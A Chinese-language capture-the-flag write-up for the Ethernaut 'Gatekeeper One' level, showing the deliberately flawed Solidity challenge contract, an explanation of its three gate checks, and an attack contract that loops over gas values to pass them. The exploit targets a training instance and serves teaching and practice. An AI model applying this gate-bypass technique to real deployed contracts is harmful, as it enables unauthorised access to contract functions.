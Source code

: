 #   Level 13 Gatekeeper One
實例地址：`0xA3B13A47FD5eE7BdFE9797c8d3e0cBF2bCDe6A90`

##  題目說明
跨越守衛的守衛並且註冊成為參賽者吧。

  可能會有用的資訊

*   回憶一下你在 Telephone 和 Token 關卡學到了什麼
*   可以去翻翻 Solidity 文件，更深入的了解一下 gasleft() 函式的資訊 (參見 Units and Global Variables 和 External Function Calls).
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

##  POC
這個合約需要破解三道需求即可，第一道解決方式只要使用另一個合約呼叫即可，第二道需要殘留的 `gas` 需要能和 8191 整除，第三道需要稍微計算一下，第一個要求後 2 byte 需要一樣，第二個要求全部不等於後 4 byte，第三個要求 地址末四位需要等於後 4 byte。

這邊使用暴力破解方式去解第二道，使用 i (1-8190) + 8191*3(預估使用值) 迴圈直到交易成功。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack{
    address public target;
    bytes8 public data=0xaaaaaaaa0000b0B6;
    
    constructor(address _target){
        target = _target;
    }

    function attack() external{
        for(uint256 i=0;i<8191;i++){
           (bool result,) = target.call{gas:i+8191*3}(abi.encodeWithSignature("enter(bytes8)", data));
        }
    }

}
```